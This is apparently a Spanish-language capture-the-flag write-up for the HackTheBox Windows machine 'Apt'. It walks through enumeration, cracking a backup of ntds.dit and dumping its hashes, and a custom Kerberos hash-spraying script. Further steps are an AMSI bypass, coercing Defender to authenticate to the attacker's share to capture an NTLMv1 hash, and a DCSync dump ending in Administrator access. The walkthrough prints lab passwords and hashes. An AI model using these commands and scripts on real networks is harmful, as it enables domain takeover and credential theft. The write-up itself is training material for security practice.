## Box Info

| Name                  | Apt        | 
| :-------------------- | ---------------: |
| Release Date          | 31 Oct, 2020     |
| OS                    | Windows          |
| Rated Difficulty      | Insane           |

## Ping 

```zsh
ping -c 3 10.10.10.213

PING 10.10.10.213 (10.10.10.213) 56(84) bytes of data.
64 bytes from 10.10.10.213: icmp_seq=1 ttl=127 time=126 ms
64 bytes from 10.10.10.213: icmp_seq=2 ttl=127 time=126 ms
64 bytes from 10.10.10.213: icmp_seq=3 ttl=127 time=125 ms

ttl 127 = Windows
```

## Recon

```zsh
nmap -sCV -p 80,135 10.10.10.213 -oN targeted                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-29 19:42 CST
Nmap scan report for 10.10.10.213
Host is up (0.13s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 10.0
|_http-title: Gigantic Hosting | Home
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## WhatWeb

```zsh
whatweb http://10.10.10.213/

http://10.10.10.213/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[sales@gigantichosting.com], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.213], JQuery, Microsoft-IIS[10.0], Script[application/x-javascript,text/javascript], Title[Gigantic Hosting | Home]
```

## Enumeration


### Directory Scan

```zsh
dirsearch -u http://10.10.10.213/
```



### Fuzzing Parameter

```zsh
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u 'http://10.10.10.213/FUZZ.html' -fc 404
```



Vemos que son los mismos directorios que vimos en la pagina web, intentaremos hacer fuzzin pero ahora a la extension para ver si encontramos algo interesante

```zsh
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,asp-aspx http://10.10.10.213/FUZZ.FUZ2Z
```



## RPC

[Network Services Pentesting - Msrpc](https://book.hacktricks.wiki/en/network-services-pentesting/135-pentesting-msrpc.html?highlight=rpc#identifying-ip-addresses)

[Github - IOXIDResovler](https://github.com/mubix/IOXIDResolver)

```zsh
python3 IOXIDResolver.py -t 10.10.10.213

[*] Retrieving network interface of 10.10.10.213
Address: apt
Address: 10.10.10.213
Address: dead:beef::b885:d62a:d679:573f
Address: dead:beef::f403:564:b500:5577
Address: dead:beef::205
```

### IPv6

```zsh
sudo nmap -p- --open --min-rate 5000 -n -vvv -Pn -6 dead:beef::b885:d62a:d679:573f -oG allPorts6
```



```zsh
nmap -sCV -p 53,80,88,135,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,49685,63154 -6 dead:beef::b885:d62a:d679:573f -oN targeted6
```

```php
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-server-header: 
|   Microsoft-HTTPAPI/2.0
|_  Microsoft-IIS/10.0
|_http-title: Bad Request
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-06-30 02:36:23Z)
135/tcp   open  msrpc        Microsoft Windows RPC
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-06-30T02:37:30+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-06-30T02:37:30+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-06-30T02:37:30+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
3269/tcp  open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-06-30T02:37:30+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Bad Request
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Bad Request
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc        Microsoft Windows RPC
49673/tcp open  msrpc        Microsoft Windows RPC
49685/tcp open  msrpc        Microsoft Windows RPC
63154/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: APT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -8m32s, deviation: 22m38s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2025-06-30T02:37:21
|_  start_date: 2025-06-30T01:35:21
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: apt
|   NetBIOS computer name: APT\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: apt.htb.local
|_  System time: 2025-06-30T03:37:23+01:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

> Tip: Tambien se puede enumerar el ipv6 a traves de snmp (puerto 161) con Enyx https://github.com/trickster0/Enyx pero siempre y cuando el servicio este abierto.

```zsh
echo "dead:beef::b885:d62a:d679:573f apt.htb apt.htb.local" | sudo tee -a /etc/hosts
```
### SMB

```zsh
nxc smb apt.htb.local -u '' -p ''
```



`windows 10 / server 2016 build 14393`

```zsh
smbclient -L apt.htb.local -N
```



```zsh
smbclient //apt.htb.local/backup -N
```



```zsh
7z l backup.zip
```

```zsh
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2020-09-23 11:40:25 D....            0            0  Active Directory
2020-09-23 11:38:20 .....     50331648      8483543  Active Directory/ntds.dit
2020-09-23 11:38:20 .....        16384          342  Active Directory/ntds.jfm
2020-09-23 11:40:25 D....            0            0  registry
2020-09-23 11:22:12 .....       262144         8522  registry/SECURITY
2020-09-23 11:22:12 .....     12582912      2157644  registry/SYSTEM
------------------- ----- ------------ ------------  ------------------------
2020-09-23 11:40:25           63193088     10650051  4 files, 2 folders
```

- Unzip




```zsh
zip2john backup.zip > zip.hash
```



```zsh
john zip.hash -w=/usr/share/wordlists/rockyou.txt
```

```zsh
iloveyousomuch   (backup.zip) 
```

## NTDS Secrets

https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds#_2-parsing

```zsh
/usr/bin/impacket-secretsdump -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > hashes
```


```zsh
cat hashes | grep "aad3b435b51404eeaad3b435b51404ee" | sponge  hashes3
```

- Users

```zsh
grep -oP '^[^:]+' hashes3 > users
```

- Hashes

```zsh
grep -oP '^[^:]+:[^:]+:[^:]+:\K[^:]+' hashes3 > hash1
```

### Enumeration Users | Kerbrute

```zsh
./kerbrute userenum --dc apt.htb.local -d htb.local users
```

```
APT$@htb.local
Administrator@htb.local
henry.vinson@htb.local
```



### ASREP-Roasting | TGT

```zsh
/usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -no-pass -usersfile valid_user.txt 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User henry.vinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User APT$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Intetaremos usar el hash de henry.vinson para averiguar si es la correcta



## Password Spraying

Despues de 20 intentos la maquina nos bloquea a traves de smb, podriamos intentar con kerbrute pero no permite brute force, necesitaremos otra herramienta que nos permita hacer brute force con hashes

https://github.com/cube0x0/HashSpray.py

Con esta herramienta nos permite hacer brute force hacia kerberos pero solo nos permite 1 hash y queremos que pruebe con varios hashes (para esto tenemos que modifica el script para que nos permita probar multiples hashes)

```python
#!/usr/bin/python3
from __future__ import division
from __future__ import print_function
import argparse
import sys
from binascii import unhexlify
from impacket.krb5.kerberosv5 import getKerberosTGT, KerberosError
from impacket.krb5 import constants
from impacket.krb5.types import Principal
import multiprocessing
import socket


def login(username, password, domain, lmhash, nthash, aesKey, dc_ip):
    try:
        kerb_principal = Principal(username, type=constants.PrincipalNameType.NT_PRINCIPAL.value)
        getKerberosTGT(kerb_principal, password, domain,
            unhexlify(lmhash), unhexlify(nthash), aesKey, dc_ip)
        print('[+] Success %s/%s' % (domain, username) )
        return "success"
    except KerberosError as e:
        if (e.getErrorCode() == constants.ErrorCodes.KDC_ERR_C_PRINCIPAL_UNKNOWN.value) or (e.getErrorCode() == constants.ErrorCodes.KDC_ERR_CLIENT_REVOKED.value) or (e.getErrorCode() == constants.ErrorCodes.KDC_ERR_WRONG_REALM.value):
           print("[-]Could not find username: %s/%s" % (domain, username) )
        elif e.getErrorCode() == constants.ErrorCodes.KDC_ERR_PREAUTH_FAILED.value:
            return
        else:
            print(e)
    except socket.error as e:
        print('[-] Could not connect to DC')
        return

if len(sys.argv) < 4:
    print("Usage: python3 kerbspray.py <domain> <username> <dc_ip> <hash_list>")
    exit()
else:
    domain = sys.argv[1]
    username = sys.argv[2]
    lmhash = 'aad3c435b514a4eeaad3b935b51304fe'
    aesKey = None
    dc_ip = sys.argv[3]
    hashfile = sys.argv[4]
    
    with open(hashfile, "r") as f:
        num_lines = len(f.readlines())

    print("[*] Spraying Hashes...\n")
    print("[i] Domain:             "+domain)
    print("[i] Target User:        "+username)
    print("[i] Domain Controller:  "+dc_ip)

    with open(hashfile, "r") as f:
        hashes = f.readlines()
        i = 1
        for ntlm in hashes:
            i = i+1
            print("[*] Current line: "+str(i)+"/"+str(num_lines), end="\r")
            nthash = ntlm.strip('\r\n')
            if(login(username, '', domain, lmhash, nthash, aesKey, dc_ip) == "success"):
                print("[+] Hash Found: " + nthash)
                exit()
```



```hash
e53d87d42adaa3ca32bdb34a876cbffb
```

### Validate Credentials

```zsh
nxc smb apt.htb.local -u 'henry.vinson' -H 'e53d87d42adaa3ca32bdb34a876cbffb'
```



Para smb tener inicio de sesion, pero para winrm no




### Kerberoasting Attack | TGS

Intentare ahora obtener un tgs (kerberoasting attack), anteriormente intentamos un tgt(GetSPNUsers), ahora sera al revez ahora usaremos GetUserSPNs.

```zsh
/usr/bin/impacket-GetUserSPNs htb.local/henry.vinson -hashes :e53d87d42adaa3ca32bdb34a876cbffb
```



## Registry Hives

https://www.herongyang.com/Windows/Registry-Hives-HKCR-HKCU-HKLM-HKU-HKCC-HCPD.html

```zsh
/usr/share/doc/python3-impacket/examples/reg.py -dc-ip apt.htb.local htb.local/henry.vinson@apt.htb.local -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\\SOFTWARE
```



`GiganticHostingManagementSystem`


```zsh
/usr/share/doc/python3-impacket/examples/reg.py -dc-ip apt.htb.local htb.local/henry.vinson@apt.htb.local -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\\SOFTWARE\\GiganticHostingManagementSystem
```



```powershell
henry.vinson_adm
G1#Ny5@2dvht
```

### Validate Credentials

- smb

```zsh
nxc smb apt.htb.local -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'                    
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows 10 / Server 2016 Build 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True) 
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] htb.local\henry.vinson_adm:G1#Ny5@2dvht
```

- winrm

```zsh
nxc winrm apt.htb.local -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
WINRM       dead:beef::b885:d62a:d679:573f 5985   APT              [*] Windows 10 / Server 2016 Build 14393 (name:APT) (domain:htb.local)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       dead:beef::b885:d62a:d679:573f 5985   APT              [+] htb.local\henry.vinson_adm:G1#Ny5@2dvht (Pwn3d!)
```


```zsh
evil-winrm -i htb.local -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
```



Bueno al intentar ejectuar el winPEASx64.exe, el defender actua y no nos permite hacer el analisis de vulnerabilidad, para poder bypassear el AMSI usaremos el menu de Evil-winrm

`menu`



`Bypass-4MSI`

`menu`



Ahora podemos usar el Invoke-Binary para poder ejecutar el winPEAS desde nuestra maquina, lo que intenta guardarlo en la memoria y desde alli ejecutarlo.

Por alguna razon no me deja ejecutar el winPEAS pero tenemos otra opcion con Seatbelt que es similar al winPEAS.



Incluso verificamos que su arquitectura es de 64 bits

```powershell
[Environment]::Is64BitOperatingSystem
```



Ahora si podemos analizar alguna vulnerabilidad



```powershell
Invoke-Binary /home/kali/Documents/HTB/APT/Seatbelt.exe -groups=all
```



Vemos que la maquina soporta NTLMv1 y esto es critico debido a que la encriptacion debil por su antiguedad

[Network security: LAN Manager authentication level](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level)

Para poder capturar el hash ntlmv1 necesitamos de un recurso que intente autenticarse, en este caso `MpCmdRun` intentara autenticarse para hacer un escaneo sobre un recurso compartido (nosotros) y con responder capturar el hash de la autenticacion por parte del windows defender.

```powershell
.\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.20\test
```

```zsh
sudo responder -I tun0 --lm
```



```zsh
APT$::HTB:55CCBC2A353B72BB5F55A50CB12F8062B8F9A26CA0F1D4D8:55CCBC2A353B72BB5F55A50CB12F8062B8F9A26CA0F1D4D8:9741345b1e30d734
```

Ahora necesitamos formatear el hash NTLMv1

https://github.com/evilmog/ntlmv1-multi

```zsh
python3 ntlmv1.py --ntlmv1 "APT$::HTB:55CCBC2A353B72BB5F55A50CB12F8062B8F9A26CA0F1D4D8:55CCBC2A353B72BB5F55A50CB12F8062B8F9A26CA0F1D4D8:9741345b1e30d734"
```

Al parecer se usa una pagina web para encontrar u obtener el hash nt https://crack.sh/get-cracking/ pero por el momento esta caida la web.

Algo asi deberia llegar usando la pagina web que por el momento no esta activa.



No encontre otra forma de obtener el nt hash asi que por el momento usare un writeup para usar el nt hash.

```zsh
impacket-secretsdump -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@htb.local'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
Administrator:des-cbc-md5:0816d9d052239b8a
krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
krbtgt:des-cbc-md5:f8c26238c2d976bf
henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
henry.vinson:des-cbc-md5:73b6f71cae264fad
henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
APT$:aes128-cts-hmac-sha1-96:bf1c1795c63ab278384f2ee1169872d9
APT$:des-cbc-md5:76c45245f104a4bf
[*] Cleaning up...
```

```zsh
evil-winrm -u administrator -H c370bddf384a691d811ff3495e8a72e2 -i apt.htb
```



Rooted 30/06/25